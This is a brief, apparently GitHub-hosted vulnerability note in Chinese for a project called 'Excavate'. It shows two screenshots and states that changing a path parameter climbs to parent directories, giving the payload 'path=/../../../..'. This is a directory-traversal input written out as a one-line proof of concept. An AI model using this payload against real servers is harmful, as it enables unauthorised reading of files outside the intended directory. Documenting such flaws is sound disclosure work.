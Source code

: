 ![image](https://github.com/tangzhaosong/Excavate/assets/100182502/a37467d7-1f48-4025-87e5-14b0690e1d1a)
![image](https://github.com/tangzhaosong/Excavate/assets/100182502/42691173-6c53-436e-ad76-9db3fd697d46)

通过更改path返回上级
Payload：path=/../../../..
